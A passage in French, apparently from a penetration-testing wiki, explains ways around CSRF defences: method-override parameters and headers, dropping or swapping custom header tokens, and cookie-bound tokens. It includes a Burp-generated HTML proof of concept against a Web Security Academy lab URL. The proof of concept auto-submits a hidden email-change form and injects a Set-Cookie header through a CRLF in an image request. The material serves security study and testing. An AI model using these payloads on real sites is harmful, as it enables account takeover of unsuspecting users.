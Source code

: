 ### Contournement de la méthode

Si la requête utilise une méthode "**étrange**", vérifiez si la fonctionnalité de **substitution de méthode** est active.\
Par exemple, si elle utilise une méthode **PUT**, vous pouvez essayer d'utiliser une méthode **POST** et **envoyer** : _https://example.com/my/dear/api/val/num?**\_method=PUT**_

Cela peut également fonctionner en envoyant le **paramètre \_method dans une requête POST** ou en utilisant les **en-têtes** :

* _X-HTTP-Method_
* _X-HTTP-Method-Override_
* _X-Method-Override_
### Contournement du jeton d'en-tête personnalisé

Si la requête ajoute un **en-tête personnalisé** avec un **jeton** à la requête en tant que méthode de **protection CSRF**, alors :

* Testez la requête sans le **jeton personnalisé et également l'en-tête**.
* Testez la requête avec un **jeton différent mais de même longueur**.

### Le jeton CSRF est vérifié par un cookie

Dans une variation ultérieure de la vulnérabilité précédente, certaines applications **dupliquent chaque jeton dans un cookie et un paramètre de requête**. Ou elles **définissent un cookie csrf** et **vérifient en arrière-plan si le jeton csrf envoyé correspond à celui lié au cookie**.

Lorsque la requête suivante est validée, l'application vérifie simplement que le **jeton** soumis dans le **paramètre de requête correspond** à la valeur stockée par le **cookie**.\
Dans cette situation, l'attaquant peut à nouveau effectuer une attaque CSRF **si le site web contient une vulnérabilité qui lui permettrait de définir son cookie CSRF sur la victime comme un CRLF**.

Dans ce cas, vous pouvez définir le cookie en essayant de charger une fausse image, puis lancer l'attaque CSRF comme dans cet exemple :
```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://ac4e1f591f895b02c0ee1ee3001800d4.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
<input type="submit" value="Submit request" />
</form>
<img src="https://ac4e1f591f895b02c0ee1ee3001800d4.web-security-academy.net/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" onerror="document.forms[0].submit();"/>
</body>
</html>
```
{% hint style="info" %}
Notez que si le jeton csrf est lié au cookie de session, cette attaque ne fonctionnera pas car vous devrez définir votre session en tant que victime, et vous vous attaquerez donc vous-même.
{% endhint %}
